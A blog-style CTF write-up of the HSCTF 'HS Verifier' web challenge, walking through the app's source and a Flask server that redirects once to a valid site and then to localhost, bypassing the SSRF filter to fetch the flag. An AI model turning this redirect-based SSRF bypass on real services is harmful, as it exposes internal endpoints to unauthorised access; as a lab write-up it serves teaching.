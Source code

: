 ```yaml
---
title: "HSCTF - HS Verifier"
date: 2022-05-25
mathjax: true
tags: [hsctf, web]
draft: false
---
```


This challenge was part of a CTF event hosted by [HackerSchool](https://hackerschool.io).

![logo](logo.png)

## Challenge statement

Being a web challenge, a website is provided in the statement, alongside the application's source code and a Dockerfile.

![website](website.png)

The website asks for two links, and after clicking "Go!", displays a diff between the two pages.

{{< figure src="diff.png" caption="Difference between example.com and github.com" >}}

In the source code we can find the following endpoints for the application:

```javascript
app.get('/', (req, res) => {
	res.render('index');
});

app.get('/flag', (req, res) => {
	if(req.connection.remoteAddress == '::1'){
		res.send(flag)}
	else{
		res.send("Forbidden", 503)}
});

app.post('/diff', async (req, res) => {
	let { url1, url2 } = req.body
	if(typeof url1 !== 'string' || typeof url2 !== 'string'){
		return res.send({error: 'Inválido formato'})
	};
	let urls = [url1, url2];
	for(url of urls){
		const valid = await validifyURL(url);
		if(!valid){
			return res.send({error: `Request to ${url} was denied`});
		};
	};
	const difference = await diffURLs(urls);
	res.render('diff', {
		lines: difference
	});

});
```

From this snippet, it is clear that the objective of the challenge is to somehow get a request to the `/flag` endpoint coming from **localhost**.
This can be achieved by tricking the web server into perform that request through an [SSRF](https://portswigger.net/web-security/ssrf) vulnerability.

## Working the problem

At first it may seem that simply placing "localhost" on one of the main page's inputs, would display the flag in the diff.
However, when attempting that strategy, the server sends back this response:

![denied](denied.png)

This is due to the `validifyURL` function, also provided in the source code:

```javascript
async function validifyURL(url){
	valid = await fetch(url, {agent: ssrfFilter(url)})
	.then((response) => {
		return true
	})
	.catch(error => {
		return false
	});
	return valid;
};
```

There is an SSRF filter implemented, which blocks any requested directed to itself. Providing the public IP also doesn't work.
The solution is to somehow provide a link that passes the SSRF filter, but still makes a call to localhost when performing the diff.
Note that the response from the SSRF filter is ignored.
This means that the application must make another request in order to perform the diff, as is confirmed in the `diffURLs` function.

```javascript
async function diffURLs(urls){
	try{
		const pageOne = await fetch(urls[0]).then((r => {return r.text()}));
		const pageTwo = await fetch(urls[1]).then((r => {return r.text()}));
		return Diff.diffLines(pageOne, pageTwo)
	} catch {
		return 'error!'
	}
};
```

## Solution

By providing a link to a controlled server, it is possible to redirect the SSRF filter's request to a valid URL and then redirect the next request to localhost.
A way to achieve this is through a simple [Flask](https://flask.palletsprojects.com/en/2.1.x/) application:

```python
from flask import Flask, redirect, g


app = Flask(__name__)

local = False

@app.route('/')
def index():
    global local
    if not local:
        local = True
        return redirect("https://github.com")
    else:
        return redirect("http://127.0.0.1/flag")



app.run('0.0.0.0', 5000)
```

Providing this web server's link to the site will display the flag on the page.

> NOTE: with this implementation, only one of the links can point to the flask application

{{< figure src="flag.png" caption="The censored flag is shown at the bottom of the page" >}}
